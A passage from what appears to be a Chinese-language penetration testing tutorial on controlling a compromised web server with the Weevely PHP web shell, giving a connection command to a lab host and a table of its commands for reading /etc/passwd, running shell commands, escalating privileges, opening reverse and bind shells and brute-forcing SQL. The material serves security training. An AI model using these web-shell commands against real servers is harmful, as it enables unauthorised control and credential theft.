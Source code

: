 一旦你有了文件，你可以用它做很多事情。我们只选择了一些操作，尽管您可能可以执行 50 个命令。首先，请使用以下代码与代理联系：

```
weevely http://192.168.56.103/metrics01.php evilHacker

```

与我们在 Kali Web 服务器上测试时显示的条目成功输出相同：

![Testing Weevely on a Windows server](img/image00916.jpeg)

### 在 Weevely 寻求帮助

要了解 Weevely 可以做什么，我们将运行`help`命令，查看您可以在 Windows 服务器上运行什么：

```
weevely> :help 

```

帮助文件的读取方式如下表所示。请注意，每个命令的开头都有一个冒号“：”：

<colgroup><col> <col></colgroup> 
| 

命令

 | 

描述

 |
| --- | --- |
| `:audit_suidsgid` | 查找带有 SUID 或 SGID 标志的文件。 |
| `:audit_phpconf` | 审核 PHP 配置。 |
| `:audit_etcpasswd` | 用不同的技巧获得`/etc/passwd`。 |
| `:audit_filesystem` | 审核系统文件的权限是否错误。 |
| `:shell_php` | 执行 PHP 命令。 |
| `:shell_sh` | 执行 Shell 命令。 |
| `:shell_su` | 使用 su 命令提升特权。 |
| `:system_extensions` | 收集 PHP 和 Web 服务器扩展列表。 |
| `:system_info` | 收集系统信息。 |
| `:backdoor_reversetcp` | 执行一个反向 TCP 外壳。 |
| `:backdoor_tcp` | 在 TCP 端口上生成一个外壳。 |
| `:bruteforce_sql` | 蛮力 SQL 数据库。 |
| `:file_cd` | 更改当前工作目录。 |
| `:file_grep` | 打印多个文件中与图案匹配的行。 |